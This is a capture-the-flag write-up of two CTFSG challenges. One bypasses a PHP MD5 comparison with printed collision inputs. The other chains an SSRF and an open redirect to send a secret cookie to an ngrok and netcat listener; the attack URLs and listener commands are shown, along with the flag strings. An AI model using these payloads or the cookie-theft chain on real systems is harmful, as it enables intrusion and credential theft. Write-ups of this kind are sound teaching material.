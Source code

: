 # Wildest Dreams Part 2

![](Images/Q1.png)

Reading the 1989.php source code, I notice that in order to get the flag, the md5 hash of i1 and i2 have to be the same, yet they cannot be the same.

![](Images/1989-source-code.png)

While searching for possible strings that have md5 hash collision, I came across a [github page](https://github.com/spaze/hashes) on php hash collision. A hashed string that starts with "0E" will be interpreted as "0" by PHP. As such, using "!=" or "==" to compare two hashed strings that starts with "0E" will be considered the same. This [article](https://blog.birost.com/a?ID=01700-1647012b-a964-48a8-b7d5-ed8ff3616103) explains it pretty well. 

Since the length of i1 and i2 cannot be less than 15, we can use the document class strings in the previous article to get our "0E" hashes.

```
i1 = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2


i2 = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

![](Images/1989-flag.png)

```
Flag: CTFSG{you_see_me_in_h1nds1ght_tangled_up_with_you_all_night}
```
# Don't touch my flag

![](Images/Q2.png)

Proxy is on port 40101 and backend is on port 40102.

From the backend source code, in /flag, we can see that the flag is returned if the "secret" cookie is of a secret value. In /login, there is a check for this secret value for redirection to another url (next_uri).

![](Images/backend-code.png)

From the proxy source code, we can see that it takes in a uri and send a request to the backend server with the secret value cookie.

![](Images/proxy-code.png)

This seems like an SSRF. In order to test if the request proxying from proxy server to backend works, we can curl the following address:

```
http://chals.ctf.sg:40101/get?uri=flag
```

![](Images/proxy-output.png)

We did a request from the proxy to the backend server. A censored output was returned instead of the "Black Flag" since the r.text is censored. But this already shows that we can send the secret cookie from the proxy server to the backend server. Now, instead of using /flag, we can use /login instead.

```
http://chals.ctf.sg:40101/get?uri=login?next=https://www.google.com
```

![](Images/proxy-login-output.png)

We get a censored output of google. Since our payload is working, we can redirect to our ngrok server to steal the secret cookie.

On Kali machine:

```
>> nc -lvnp 80

>> ngrok 80 http
```

![](Images/cookie-thief.png)

We did a curl to the backend server with the secret cookie, we obtained the flag:

![](Images/curl-secret.png)

```
CTFSG{d0nT_toUcH_mY_c00k13s}
```